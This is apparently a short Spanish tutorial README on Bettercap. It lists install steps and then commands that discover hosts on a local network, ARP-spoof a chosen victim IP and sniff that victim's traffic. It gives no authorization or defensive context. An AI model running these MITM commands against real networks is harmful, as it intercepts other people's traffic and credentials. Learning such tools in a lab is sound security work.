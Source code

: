 # Análisis con Bettercap

![Informatica](Img/logo.jpg)

Bettercap es una herramienta potente, flexible y portátil creada para realizar varios tipos de ataques MITM contra una red, manipular HTTP, HTTPS y tráfico TCP en tiempo real, buscar credenciales y mucho más.

## Instalación

```
sudo apt-get install build-essential ruby-dev libpcap-dev

apt-get update

apt-get install bettercap
```

## USO

Abriremos una nueva terminal y ejecutaremos lo siguientes comandos:

```
bettercap

net.probe on

ticker on
```

Como podmeos observar son las IP de nuestra red local.

![Informatica](Img/IP.jpg)

En la misma terminal ejecutaremos de nuevo bettercap, seleccionamos la IP que vamos analizár.

```
set arp.spoof targets 192.168.1.23

arp.spoof on

set net.sniff.verbose false

net.sniff on
```

Y nos mostrara todo el tráfico de la IP víctima.

![Informatica](Img/trafico.png)

